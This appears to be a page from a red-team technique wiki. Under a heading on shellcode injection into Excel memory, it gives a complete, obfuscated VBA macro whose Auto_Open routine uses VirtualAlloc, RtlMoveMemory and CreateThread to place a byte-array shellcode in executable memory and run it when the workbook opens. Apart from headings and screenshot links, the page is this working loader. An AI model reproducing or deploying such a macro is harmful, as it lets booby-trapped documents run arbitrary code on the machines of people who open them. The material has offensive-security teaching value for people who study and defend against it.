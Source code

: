 ![](<../../../.gitbook/assets/Screenshot from 2019-04-10 22-19-03.png>)

## Shellcode Injection to Excel.exe Memory Using Windows APIs

```csharp
Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal Zopqv As Long, ByVal Xhxi As Long, ByVal Mqnynfb As LongPtr, Tfe As Long, ByVal Zukax As Long, Rlere As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal Xwl As Long, ByVal Sstjltuas As Long, ByVal Bnyltjw As Long, ByVal Rso As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Dkhnszol As LongPtr, ByRef Wwgtgy As Any, ByVal Hrkmuos As Long) As LongPtr
Private Declare Function CreateThread Lib "kernel32" (ByVal Zopqv As Long, ByVal Xhxi As Long, ByVal Mqnynfb As Long, Tfe As Long, ByVal Zukax As Long, Rlere As Long) As Long
Private Declare Function VirtualAlloc Lib "kernel32" (ByVal Xwl As Long, ByVal Sstjltuas As Long, ByVal Bnyltjw As Long, ByVal Rso As Long) As Long
Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Dkhnszol As Long, ByRef Wwgtgy As Any, ByVal Hrkmuos As Long) As Long

Sub Auto_Open()
        Dim Wyzayxya As Long, Hyeyhafxp As Variant, Lezhtplzi As Long, Zolde As Long
#If Vba7 Then
        Dim  Xlbufvetp As LongPtr
#Else
        Dim  Xlbufvetp As Long
#EndIf
        Hyeyhafxp = Array(232,137,0,0,0,96,137,229,49,210,100,139,82,48,139,82,12,139,82,20, _
139,114,40,15,183,74,38,49,255,49,192,172,60,97,124,2,44,32,193,207, _
13,1,199,226,240,82,87,139,82,16,139,66,60,1,208,139,64,120,133,192, _
116,74,1,208,80,139,72,24,139,88,32,1,211,227,60,73,139,52,139,1, _
214,49,255,49,192,172,193,207,13,1,199,56,224,117,244,3,125,248,59,125, _
36,117,226,88,139,88,36,1,211,102,139,12,75,139,88,28,1,211,139,4, _
139,1,208,137,68,36,36,91,91,97,89,90,81,255,224,88,95,90,139,18, _
235,134,93,106,1,141,133,185,0,0,0,80,104,49,139,111,135,255,213,187, _
224,29,42,10,104,166,149,189,157,255,213,60,6,124,10,128,251,224,117,5, _
187,71,19,114,111,106,0,83,255,213,99,97,108,99,0)
        Xlbufvetp = VirtualAlloc(0, UBound(Hyeyhafxp), &H1000, &H40)
        For Zolde = LBound(Hyeyhafxp) To UBound(Hyeyhafxp)
                Wyzayxya = Hyeyhafxp(Zolde)
                Lezhtplzi = RtlMoveMemory(Xlbufvetp + Zolde, Wyzayxya, 1)
        Next Zolde
        Lezhtplzi = CreateThread(0, 0, Xlbufvetp, 0, 0, 0)
End Sub
```

![](<../../../.gitbook/assets/Peek 2019-04-10 22-35.gif>)

![TCP session from Excel.exe](<../../../.gitbook/assets/Screenshot from 2019-04-10 22-36-03.png>)

## Parent Process ID Spoofing
